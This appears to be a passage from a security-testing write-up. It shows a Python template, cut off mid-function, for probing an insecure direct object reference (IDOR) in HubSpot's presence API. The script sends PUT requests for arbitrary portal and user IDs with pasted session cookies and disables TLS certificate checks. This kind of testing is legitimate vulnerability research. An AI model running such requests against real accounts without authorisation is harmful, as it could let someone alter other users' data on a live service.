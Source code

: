 
### Template 2: Presence API IDOR Testing

**File:** `/tmp/test_lowpriv_presence.py`

```python
#!/usr/bin/env python3
import urllib.request
import ssl
import json

# ============================================================================
# CONFIGURATION - REPLACE WITH YOUR VALUES
# ============================================================================

HUBLET = "na2"
PORTAL_ID = "YOUR_PORTAL_ID_HERE"
USER_ID = "YOUR_USER_ID_HERE"

COOKIE_HEADER = """
PASTE_YOUR_COOKIES_HERE
""".strip()

# ============================================================================

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

base_url = f"https://app-{HUBLET}.hubspot.com"

def test_presence(portal_id, user_id, test_name):
    """Test Presence API"""
    path = f"/api/presence/v1/presence/portal/{portal_id}/user/{user_id}"
    params = f"?hs_static_app=notifications&hs_static_app_version=1.11623&portalId={portal_id}"
    full_url = f"{base_url}{path}{params}"

    print(f"\n{'='*70}")
    print(f"TEST: {test_name}")
    print(f"Portal: {portal_id}, User: {user_id}")
    print('='*70)

    req = urllib.request.Request(full_url, method='PUT')
    req.add_header('Cookie', COOKIE_HEADER)
    req.add_header('Content-Type', 'application/json')
    req.add_header('Accept', 'application/json')
    req.add_header('User-Agent', 'Mozilla/5.0')
    req.add_header('Origin', base_url)

    data = json.dumps({}).encode('utf-8')

    try:
        response = urllib.request.urlopen(req, data=data, context=ctx, timeout=10)
        content = response.read().decode('utf-8')
        print(f"✓ Status: {response.status}")

        try:
            json_resp = json.loads(content)
            print(f"✓ Response: {json.dumps(json_resp, indent=2)[:200]}")
        except:
            print(f"✓ Response: {content[:200]}")

        return True, response.status

```